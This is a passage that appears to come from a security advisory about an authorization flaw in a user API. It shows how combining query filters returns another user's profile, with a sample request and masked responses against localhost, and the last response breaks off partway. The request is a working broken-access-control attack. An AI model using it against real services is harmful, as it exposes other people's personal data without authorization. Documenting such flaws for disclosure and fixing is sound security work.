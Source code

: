 ```
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "D5********************",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 3,
            "translationKey": "**********",
            "email": "domingo....@domain.local",
            "firstName": "Domingo",
            "surname": "**********",
            "telephoneCountryCode": "**",
            "mobilePhone": "******",
            "languageId": 1,
            "createdAt": "2024-03-11T07:24:57.627Z",
            "termsOfUseAccepted": true,
            "howMeetUs": "**************",
            "id": "D5********************",
            "type": "UserGetResponseCustomDTO"
        }
    }]
}
```

The combination of filters can be used to evade authorization control and gain access to other users' profiles:
### Request
```
GET /api/users?include=language,country&filter[users]=id=='94***************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ....
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:50:07 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 520
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "94******************",
        "type": "UserGetResponseCustomDTO",
```